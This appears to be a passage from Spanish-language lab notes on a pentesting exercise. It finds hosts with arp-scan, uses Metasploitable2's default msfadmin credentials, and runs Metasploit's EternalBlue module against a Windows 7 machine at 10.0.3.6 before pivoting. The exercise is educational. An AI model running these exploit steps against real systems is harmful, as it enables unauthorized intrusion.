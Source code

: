             ![[Imagenes/image 8 38.png|image 8 38.png]]
            
            Usamos el usuario y contraseña para entrar **usuario/pass: msfadmin** y hacemos un `ifconfig`.
            
            ![[Imagenes/image 9 35.png|image 9 35.png]]
            

  

---

  

Comenzamos. Vamos a hacer el proceso completo , haremos una intrusión a la maquina con Windows 7 y luego el **Pivoting** a la metasplitable2.

  

```Bash
sudo arp-scan -I eth0 --localnet
```

![[Imagenes/image 10 31.png|image 10 31.png]]

  

![[Imagenes/image 11 25.png|image 11 25.png]]

- Ejecutamos el Metasploit
    
    ![[Imagenes/image 12 25.png|image 12 25.png]]
    

  

- Vamos a explotar un EternalBlue
    
    `search eternalblue`
    
    ![[Imagenes/image 13 23.png|image 13 23.png]]
    

`use 0`

![[Imagenes/image 14 21.png|image 14 21.png]]

  

`show options`

![[Imagenes/image 15 18.png|image 15 18.png]]

- Rellenamos los datos que necesitemos y ejecutamos el exploit.
    
    `set RHOST 10.0.3.6`
    
    `run`
    
    ![[Imagenes/image 16 15.png|image 16 15.png]]
    
    ![[Imagenes/image 17 12.png|image 17 12.png]]
    